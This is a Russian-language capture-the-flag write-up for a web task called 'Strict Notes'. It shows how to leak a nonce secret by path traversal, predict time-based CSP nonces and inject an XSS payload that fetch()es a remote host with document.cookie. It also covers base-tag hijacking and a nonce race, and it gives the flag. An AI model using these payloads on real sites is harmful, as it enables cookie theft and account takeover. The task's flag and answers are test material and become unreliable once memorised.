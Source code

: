 # Strict Notes Writeup

## Описание таска

Не выходи из вебчика - не совершай ошибку,
Зачем тебе пывны, если ты куришь шипку?
За багой бессмысленно все, особенно - возглас счастья,
Только крипту реши - и сразу же возвращайся!

## Флаг

`kxctf{s0rry_1_r34ly_l0v3_ch41ns}`

## Райтап

По интересной случайности у таска, помимо интендед решения, оказалось еще два, поэтому расскажу про все :)

### Интендед решение

CSP - это политика контроля источников ресурсов в браузерах.  
В content-security-policy была прописана следующая конфигурация `script-src 'nonce-<рандомный nonce>' 'strict-dynamic'; img-src 'none'; style-src 'self'; frame-src 'none';`. Директива 'strict-dynamic' означала, что браузер будет исполнять, только те скрипты, которые будут иметь в качестве атрибута такой же nonce, как и в HTTP-заголовке ответа 'Content-Security-Policy'. В приложении была такая реализация:
Код генерации шаблонов:
```python
nonce_value = nonce.generate(config.nonce_secret)
    resp = make_response(render_template(template, nonce=nonce_value))
    resp.headers['Content-Security-Policy'] = config.csp_config.format(nonce_value)
```

Код подстановки nonce в качестве атрибута script:
```js
<script nonce="{{ nonce }}" src="/static/js/script.js"></script>
```

Благодаря CSP мы можем сделать так, чтобы браузер исполнял только доверенный нам скрипт, который мы, своего рода, подписали, а все остальные просто отрисовывал, как текст.
Посмотрим на функцию генерации nonce:

```python
def generate(secret: str) -> str:
    phrase = secret + str(int(time.time()))
    return hashlib.md5(phrase.encode()).hexdigest()
```

Мы видим, что nonce на самом деле псевдорандомный и генерируется на основе времени и секрета из конфига `secrets.json`

Получается, получив доступ к секрету, мы сможем сгенерировать валидный nonce, который пройдет проверку и исполнит наш произвольный код. Давайте изучать код дальше и думать, как мы можем достать секрет.

Функция регистрации дает возможность записать в auth-сессию произвольный адрес, не вырезая `../`:
```python
# Используется
session['username'] = username
# А должно быть:
session['username'] = os.path.basename(username)
```

Посмотрим дальше - открытие файлов собственных личных заметок (в ручке `/my`) происходит не с помощью сохраненных безопасных имен пользователей, а с помощью небезоасных гначений в сессииях:
```python
notes.append(json.loads(open(f"/app/user_notes/{session['username']}/{os.path.basename(request.args['id'])}").read()))
```

Таким образом первый шаг эксплуатации такой:
- регистрируем пользователя `../../app`
- переходим по пути `/my?id=secrets.json` и получаем значение секрета, на основе которого генерируются nonce. 

Далее нам надо сгенерировать nonce на несколько секунд вперед (в примере будем делать на 20)
Сделать это можно с помощью питона:
```python
# secret украден из secrets.json 
secret = "asd"
phrase = secret + str(int(time.time()) + 20) # На десять секунд вперед
nonce = hashlib.md5(phrase.encode()).hexdigest()
```

Поле `title` подставляется небезопасным образом, не валидируя опасные для xss символы (оставляем исполнение скриптов на csp - такая конфигурация часто используется в больших приложениях для создания красивых сообщений):
В темплейте:
```html
{% if safe and key in safe: %}
    <td>{{ note[key]|safe }}</td>
{% else %}
    <td>{{ note[key] }}</td>
{% endif %}
```
В рендере видим (невалидируемый `title`):
```python
resp = make_response(render_template("filtered_notes.html", nonce=nonce_value, safe=['title'], title="Public notes", notes=notes))
```

Создаем заметку, в которой в качестве названия указываем следующий xss пейлоад:
```javascript
<script nonce="<сгенерированный nonce на основе секрета>">fetch("http://<удаленный айпишник>/flag?"+dpcument.cookie)</script>
```

После создания получаем от приложение идентификатор заметки.
Через двадцать секунд после генерации nonce сервера будет таким же, как сгенерированный нами(см. выше)
Поднимаем http-server (самый частый пример `python3 -m http.server <port>`) у себя и отправляем запрос на переход бота на нашу уязвимую заметку: `/vote?id=<our uuid>`

В куках бота лежит флаг, поэтому в логах нашего сервера мы увидим запрос, в гет-параметрах которого будет флаг

### Анинтендед решение 1

У тега `base`, не входящего в ограничения CSP, есть возможность поменять базовое расположение, откуда будут подтягиваться все ресурсы на веб-страницу - делается это через атрибут `href`. 

Алгоритм атаки:
- Поднимаем http-сервер и по пути `/static/js/script.js` располагаем наш скрипт
- Создаем записку, в которой пишем `<base href="http://<your own domain name>">`
- Получаем xss без обхода nonce-ов

### Анинтендед решение 2

Так как каждый nonce является валидным в течение целой секунды, мы можем организовать race с помощью скрипта:
- Сходим на любую страницу и посмотрим какой nonce сейчас валидный
- Создадим заметку с <script> и таким nonce-ом
- Отправим бота на эту записку

Таск решен)

Эксплойт на второй анинтендед, написанный одной из команда [прикладываю рядом](exploit-unintended2/exploit.py)

## Powered by [FrakenboK](https://github.com/FrakenboK)
